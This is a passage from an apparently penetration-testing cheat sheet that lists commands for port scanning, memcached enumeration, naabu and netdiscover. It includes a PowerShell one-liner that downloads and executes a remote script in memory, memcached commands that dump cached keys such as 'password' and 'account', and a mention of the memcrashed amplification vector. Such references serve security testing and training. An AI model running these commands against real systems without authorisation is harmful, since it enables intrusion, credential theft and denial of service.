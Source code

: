 ## Minimalistic Offensive Security Tools

> https://github.com/InfosecMatter/Minimalistic-offensive-security-tools

### port-scan-tcp.ps1

```c
PS C:\> IEX(New-Object Net.WebClient).DownloadString('http://<RHOST>/port-scan-tcp.ps1')
```

## memcached

>  https://github.com/pd4d10/memcached-cli

```c
memcrashed / 11211/UDP

$ npm install -g memcached-cli
$ memcached-cli <USERNAME>:<PASSWORD>@<RHOST>:11211
$ echo -en "\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n" | nc -q1 -u 127.0.0.1 11211

STAT pid 21357
STAT uptime 41557034
STAT time 1519734962

$ sudo nmap <RHOST> -p 11211 -sU -sS --script memcached-info

$ stats items
$ stats cachedump 1 0
$ get link
$ get file
$ get user
$ get passwd
$ get account
$ get username
$ get password
```

## Naabu

```c
$ sudo naabu -p - -l /PATH/TO/FILE/<FILE> -o /PATH/TO/FILE/<FILE>
```

## netdiscover

```c
$ sudo netdiscover -i <INTERFACE> -r <RHOST>
```

## NetBIOS

